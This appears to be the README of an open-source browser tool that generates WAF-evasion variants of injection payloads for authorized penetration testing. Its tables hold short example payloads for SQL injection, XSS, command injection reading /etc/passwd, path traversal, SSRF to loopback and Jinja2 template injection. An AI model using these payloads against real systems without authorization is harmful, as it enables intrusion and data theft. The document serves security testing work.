

# 🛡️ WAF Bypass Toolkit — Target-Aware Payload Transformer

A browser-based payload transformation toolkit built with React and Vite. It helps **web penetration testers**, **bug bounty hunters**, and **security researchers** generate context-aware variants for authorized WAF and parser testing.

> Payload transformation is local: the application has no backend, does not contact a target, and does not execute generated payloads. The public site uses Cloudflare Web Analytics for page-view and performance metrics; payload values are not submitted by the toolkit.


### 🔗 [Live Tool → waf-bypass.dev](https://waf-bypass.dev)

---

## 📸 Screenshot



---

## 🎯 Features

- **7 Vulnerability Categories** with dedicated evasion engines
- **Multiple evasion layers** per category with toggle controls
- **Up to 12 bypass variants** generated per payload, fairly distributed across selected layers
- **Context-aware output** with validated, conditional, and legacy technique labels and prerequisite notes
- **Target-specific** payloads (MySQL, PostgreSQL, MSSQL, Linux shell, Windows cmd.exe, PowerShell, PHP, Jinja2, etc.)
- **Exact byte downloads** for encodings such as UTF-16LE/BE XML
- **Dark hacker theme** with responsive design
- **No target-side execution** — the browser generates inert text or exact downloadable bytes

## What the toolkit does—and does not do

The toolkit applies deterministic, target-aware transformations to user-supplied test payloads. SQL transformations protect quoted strings, comments, dollar quotes, Oracle q-quotes, and identifiers where applicable. JavaScript transformations distinguish code from strings and comments. Command variants use separate Linux, `cmd.exe`, and PowerShell rules. URL, template, path, and XML variants retain context-specific decoding or parser requirements.

Generated output is test material, not a promise of universal semantic equivalence or a guaranteed bypass. Real behavior depends on the selected database, shell, framework, parser, request decoding chain, application context, WAF policy, and backend configuration. Always read each output's validity label and note.

---

## 💉 Supported Categories & Evasion Techniques

### 1. SQL Injection (SQLi)
| Layer | Example |
|-------|---------|
| Whitespace Bypass | `UNION/**/SELECT` , `UNION%0aSELECT` |
| Case Toggling | `uNiOn SeLeCt` |
| Inline Comments | `/*!50000UNION*//*!50000SELECT*/` |
| Hex Encoding | `SELECT 0x61646d696e` |
| URL Encoding | `%55%4e%49%4f%4e` |
| Double URL Encoding | `%2555%254e%2549%254f%254e` |

**Targets:** MySQL, PostgreSQL, MSSQL, Oracle, SQLite

### 2. Cross-Site Scripting (XSS)
| Layer | Example |
|-------|---------|
| HTML Entities | `&#x3C;script&#x3E;` |
| URL Encoding | `%3Cscript%3E` |
| JS Obfuscation | `window['al'+'ert'](1)` |
| Tag Variation | `<svg/onload=alert(1)>` |
| Case Toggling | `<ScRiPt>` |
| Mixed Encoding | HTML + JS Unicode |

**Targets:** HTML Context, JS Context, Attribute Context

### 3. OS Command Injection (CMDi)
| Layer | Example |
|-------|---------|
| Space Bypass | `cat${IFS}/etc/passwd` |
| Keyword Bypass | Linux `c'a't`, cmd.exe `w^h^o^a^m^i`, PowerShell `&('Write-'+'Output')` |
| Newline Injection | `%0acat /etc/passwd` |
| Variable Expansion | `$(echo Y2F0|base64 -d)` |
| Hex Commands | `$(printf '\x63\x61\x74')` |

**Targets:** Linux shell, Windows cmd.exe, PowerShell

### 4. LFI / Path Traversal
| Layer | Example |
|-------|---------|
| Double URL Encoding | `%252e%252e%252f` |
| Unicode Encoding | `..%c0%af`, `%u002e` |
| Null Byte | `../etc/passwd%00.jpg` |
| Path Normalization | `....//`, `..;/` |
| PHP Wrapper | `php://filter/convert.base64-encode/...` |

**Targets:** PHP, Java, .NET, Generic

### 5. Server-Side Request Forgery (SSRF)
| Layer | Example |
|-------|---------|
| IP Decimal | `http://2130706433` |
| IP Hex | `http://0x7f000001` |
| IP Octal | `http://0177.0000.0000.0001` |
| IP Short | `http://127.1`, `http://0/` |
| URL Tricks | `http://evil@127.0.0.1` |
| DNS Redirect | `127.0.0.1.nip.io` |

**Targets:** HTTP, Cloud Metadata

### 6. Server-Side Template Injection (SSTI)
| Layer | Example |
|-------|---------|
| String Concat | `{{ self['__cla'+'ss__'] }}` |
| Hex Encoding | `{{ self['\x5f\x5fclass\x5f\x5f'] }}` |
| Attr Access | `{{ self\|attr("__class__") }}` |
| Filter Bypass | `` |

**Targets:** Jinja2, Twig, Freemarker

### 7. XML External Entity (XXE)
| Layer | Example |
|-------|---------|
| UTF-16 Encoding | Download XML with real UTF-16LE/BE bytes and BOM |
| UTF-7 Encoding | Encode ENTITY/SYSTEM keywords |
| Entity Nesting | Parameter entity indirection |
| Alternative XML Vectors | XInclude, SVG, and target-specific stream-wrapper variants |

**Targets:** Generic XML, PHP, Java

---

## 🚀 Quick Start

```bash
# Clone the repository
git clone https://github.com/Ilias1988/waf-bypass.git
cd waf-bypass

# Install the exact locked dependencies
npm ci

# Start development server
npm run dev

# Build for production
npm run build

# Run the functional regression suite and production build
npm run check

# Run the adversarial cross-engine matrix only
npm run test:adversarial

# Run the complete release gate
npm run check:release
```

---

## 🏗️ Project Structure

```
WAF-Bypass-Toolkit/
├── src/
│   ├── App.jsx                    # Main application
│   ├── data/
│   │   └── techniques.js          # Categories, targets, layers config
│   ├── engines/
│   │   ├── sqli.js                # SQL Injection engine
│   │   ├── xss.js                 # XSS engine
│   │   ├── cmdi.js                # Command Injection engine
│   │   ├── lfi.js                 # LFI / Path Traversal engine
│   │   ├── ssrf.js                # SSRF engine
│   │   ├── ssti.js                # SSTI engine
│   │   └── xxe.js                 # XXE engine
│   ├── hooks/
│   │   └── useWafBypass.js        # Main state management
│   ├── components/
│   │   ├── layout/                # Header, Footer
│   │   ├── panels/                # CategorySelector, Input, Output, Options
│   │   └── ui/                    # CopyButton, Toast
│   └── utils/
│       ├── encoding.js            # Encoding functions
│       └── helpers.js             # Utility helpers
├── index.html
├── tailwind.config.js
├── vite.config.js
└── package.json
```

---

## 🔧 Tech Stack

- **React 18** — Component-based UI
- **Vite 5** — Lightning-fast build tool
- **Tailwind CSS 3** — Utility-first styling
- **Lucide React** — Beautiful icons
- **Client-side transformer** — no payload execution or target requests

---

## ✅ Output validity

Payload transformations are context-sensitive. The UI marks each generated result as:

- **Validated** — deterministic syntax/encoding checks pass for the represented transformation.
- **Conditional** — valid only when the target performs the documented decoding, parsing, or feature step.
- **Legacy** — depends on obsolete or non-conforming parser behavior and should be tested only against an explicitly compatible target.

Binary encodings are downloaded as exact bytes instead of being copied as misleading plain text. The automated suite covers Unicode encoding, SQL dialect handling, PowerShell `EncodedCommand`, Windows/POSIX traversal, URL authority preservation, SSTI intent preservation, XML byte encoding, layer fairness, and production builds. The adversarial matrix additionally exercises every configured target/layer with complex Unicode, quoting, comments, raw URL suffixes, decoding-depth, metadata, determinism, and no-op invariants.

## 📊 Privacy and analytics

Payload input and generated variants remain in browser memory unless you explicitly copy or download them. The application does not send payloads to a backend or target. The hosted site loads Cloudflare Web Analytics to measure visits, page-load performance, and Core Web Vitals. Cloudflare documents Web Analytics as privacy-first and states that it does not collect or use visitors' personal data.

## 🚢 Deployment

The deployment helper is intentionally guarded. It uses an isolated operating-system temporary directory, executes Git without a shell, and requires an explicit confirmation flag:

```bash
npm run check:release
npm run deploy -- --confirm-deploy
```

Review [`RELEASE_CHECKLIST.md`](RELEASE_CHECKLIST.md) before publication. The deploy command updates the fixed `gh-pages` branch for this repository; do not run it from an unreviewed working tree.

---

## ⚠️ Disclaimer

This tool is intended for **authorized penetration testing**, **bug bounty programs**, and **security research** only. Unauthorized use against systems you do not own or have explicit permission to test is **illegal**. The authors assume no liability for misuse.

---

## 📄 License

MIT License — See [LICENSE](LICENSE) for details.

---

## 🤝 Contributing

Contributions are welcome! Feel free to:
- Add new evasion techniques
- Support new vulnerability categories
- Improve existing engines
- Fix bugs or improve UI

---

**Made with ❤️ for the InfoSec community**
